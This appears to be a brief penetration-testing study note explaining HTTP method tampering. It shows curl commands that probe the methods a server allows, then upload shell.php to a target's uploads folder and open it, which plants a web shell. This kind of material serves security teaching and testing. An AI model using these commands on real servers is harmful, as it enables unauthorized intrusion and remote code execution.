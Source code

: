 # 6.1.1 HTTP Method Tampering

## HTTP Method Tampering

HTTP Method Tampering is a type of security vulnerability that can be exploited in web apps, that occurs when an attacker manipulates the HTTP request method used to  interact with a web server.

HTTP Request typically use methods like GET, POST, PUT, DELETE, OPTIONS, etc to perform specific actions on a web application.

### Examples of HTTP Method Tampering

Various situation and examples can be:

* Changing a GET request to a DELETE request: if the application doesn't properly validate the method used, it might inadvertently delete data when we try to retrieving it.
* Changing a POST request to a GET: it could expose sensitive data that should only be accessible via a POST request.

We can do it using Burp Repeater or Curl utility as below:

See allow method information -> `curl -v <Target_URL>`

And specify request options using -X (default is GET) -> `curl -v -X OPTIONS <Target_URL>`

<figure><img src="../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

Good new, more methods are allowed, then we can upload everything

`curl <Target_URL>/uploads/ --upload-file shell.php`

and open shell.php file uploaded into \<Target\_URL>/uploads/
